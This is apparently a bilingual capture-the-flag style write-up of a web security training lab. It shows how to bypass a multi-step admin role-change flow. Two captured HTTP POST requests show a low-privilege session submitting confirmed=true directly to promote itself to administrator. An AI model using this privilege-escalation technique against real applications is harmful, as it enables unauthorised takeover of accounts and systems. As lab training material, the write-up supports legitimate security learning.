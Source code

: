 ### 題目敘述
 This lab has an admin panel with a flawed multi-step process for changing a user's role. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin.

To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator. 
### 題目解釋

### 解答

登 Admin 帳號測試，送出之後會多一個 `Are you sure?`，按 Yes 後再抓包

```
POST /admin-roles HTTP/1.1
Host: ac381f941e9b5529c02776c9007c0068.web-security-academy.net
Cookie: session=zNyzlTvxi4vdvfVwFsoIx0bHSoYXcquy
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: https://ac381f941e9b5529c02776c9007c0068.web-security-academy.net
Referer: https://ac381f941e9b5529c02776c9007c0068.web-security-academy.net/admin-roles
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

action=upgrade&confirmed=true&username=carlos
```

觀察一下，直接送會沒有帶 `confirmed=true`

登入低權限使用者後，複製 Session 貼到符合上面格式
```
POST /admin-roles HTTP/1.1
Host: ac381f941e9b5529c02776c9007c0068.web-security-academy.net
Cookie: session=8vblJuYQSnvxbxZJkoeQV9zbLfG4D4nA
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: https://ac381f941e9b5529c02776c9007c0068.web-security-academy.net
Referer: https://ac381f941e9b5529c02776c9007c0068.web-security-academy.net/admin-roles
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

action=upgrade&confirmed=true&username=wiener
```
